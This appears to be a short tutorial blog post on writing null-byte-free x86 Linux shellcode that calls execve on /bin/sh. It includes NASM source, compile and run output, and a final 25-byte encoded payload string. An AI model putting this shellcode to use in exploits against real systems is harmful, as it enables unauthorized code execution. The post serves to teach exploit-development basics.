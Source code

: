 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
xor eax,eax 		; zero to eax
push eax 				; put 0 in stack, end of string
push 0x68732f6e ; part of /bin/sh
push 0x69622f2f ; part of /bin/sh
mov ebx,esp			; mov /bin/sh to ebx
push eax				; put NULL on argv
push ebx				; put filename on stack
mov ecx, esp		; put filename to ecx
xor edx,edx			; envp = NULL
mov al,0x0b			; 0x0b to call sys_execve
int 0x80				; kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 25 bytes.

{% highlight Bash %}
\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80
{% endhighlight %}

### Thanks to @thiagopeixoto for the help
